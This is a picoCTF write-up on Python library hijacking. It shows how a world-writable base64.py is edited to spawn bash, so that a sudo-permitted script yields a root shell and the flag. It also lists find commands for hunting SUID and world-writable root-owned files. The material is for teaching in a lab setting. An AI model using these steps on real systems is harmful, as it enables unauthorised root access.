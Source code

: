 # Hijacking

Learnt something about Linux and Python in this challenge.

The biggest gain is know I should setup a checklist for all kinds of privilege related challenges:

- `sudo --list`
- Search for globally writable files (especially for those owned by root!)
- Search for all the executable with SET-UID bit owned by root

I begin to appreciate why the global writable checks in servers are important now...

<https://www.hackingarticles.in/linux-privilege-escalation-python-library-hijacking/>

I think this challenge is highly relatable to this article...

## The problem

Try to get root access. All we have is...

```bash
$ sudo --list
Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (ALL) /usr/bin/vi
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
```

This mean we can run `sudo vi` by entering password (which is the unintended solution to this challenge) and run `sudo /usr/bin/python3 /home/picoctf/.server.py` without entering password and run it as root.

(By the way when we are in `/home/picoctf/`, we can do less typing with `sudo python3 .server.py`)

Then let's try to run the script

```bash
$ ls -Al # Only showing the related python script
-rw-r--r-- 1 root    root     375 Mar 16 01:30 .server.py
# Not writable,cannot edit it,no SUID.
# We can only get root right from sudo python3 .server.py

$ cat ~/.server.py

import base64
import os
import socket
ip = 'picoctf.org'
response = os.system("ping -c 1 " + ip)
#saving ping details to a variable
host_info = socket.gethostbyaddr(ip)
#getting IP from a domaine
host_info_to_str = str(host_info[2])
host_info = base64.b64encode(host_info_to_str.encode('ascii'))
print("Hello, this is a part of information gathering",'Host: ', host_info)
```

```bash
$ sudo /usr/bin/python3  /home/picoctf/.server.py # Same as sudo python3 .server.py

sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip)
socket.gaierror: [Errno -5] No address associated with hostname
```

Weird Python script... And we know `ping` is not available in this server.

If we can change the script (`.server.py`), we can just open a shell to get root permission (`import os; os.system("bash")`)

Also, if we can change the root's PATH, we can supply `ping` which is actually a `bash`. (If we have `SETENV` in sudoer)

But we can't do these... so `ping` and the `os.system()` are just a distraction this time.

## Solution

I guess many people are quite unhappy with this intentionally insecure setup ...

```bash
$ ls -Al /usr/lib/python3.8/base64.py
-rwxrwxrwx 1 root root 20382 Nov 14 12:59 /usr/lib/python3.8/base64.py
```

It is globally writable.

The `.server.py` in our home directory can be "modified indirectly" with the `base64.py` (`import base64`)

So we can just change it a little bit ...

```bash
$ head /usr/lib/python3.8/base64.py

#! /usr/bin/python3.8
import os; os.system("bash")

"""Base16, Base32, Base64 (RFC 3548), Base85 and Ascii85 data encodings"""

# Modified 04-Oct-1995 by Jack Jansen to use binascii module
# Modified 30-Dec-2003 by Barry Warsaw to add full RFC 3548 support
# Modified 22-May-2007 by Guido van Rossum to use bytes everywhere

import re
# ...
```

Then this is the result.

```bash
picoctf@challenge:~$ sudo python3 ~/.server.py
# Yes! We now have the shell as root!
root@challenge:/home/picoctf# whoami
root

root@challenge:/home/picoctf# cat /root/.flag.txt
picoCTF{pYth0nn_that_flag}
```

## Where are these Python modules located

Just execute the `python3` binary then check the `__file__` property.

Shamelessly copy from <https://stackoverflow.com/a/42747425>

```python
>>> import os
>>> print(os.__file__)
/usr/local/lib/python3.11/os.py
```

## Thoughts

If we have the checklist before hand, this will be very obvious and straightforward challenge.

So let's set it up here.

```bash
# Find files with SUID bits and executable owned by root
$ find / -user root -type f -perm -4001  -exec ls {} -Al \; 2>/dev/null

# Find files with SGID bits, slightly less useful
$ find / -user root -type f -perm -2001  -exec ls {} -Al \; 2>/dev/null

# Find globally writable file owned by root
# Should exclude /proc/ and /sys/fs/ in my local machine
$ find / \( -path /proc -o -path /sys/fs \) -prune -o  -user root -type f -perm /002 -exec ls {} -Al \;  2>/dev/null

# cannot be /proc/ and /sys/fs/ (the closing / cannot be added)

# --- Reference ---

# (Assume we use the same number as chmod)

# Note about -perm and /,- and no specifier
# no specifier is exact mode (e.g.: -perm 400 only return exact 400, not 410 or 700 won't match)

# -perm -sugo : ALL the 1 bits of each octal group (ugo)must be met, check example above. So 0 means everything is acceptable. 110 -> 6, in minus mode (-), permission of 6 or 7 will match the -perm -6

# -perm /sugo: Any of the 1 bits matching the octal group (ugo) are ok. This is like the OR for different groups

# Example copy from man find
# Traverse the filesystem just once, listing setuid files and directories into /root/suid.txt
$ find / \( -perm -4000 -fprintf /root/suid.txt '%#m %u %p\n' \)

```
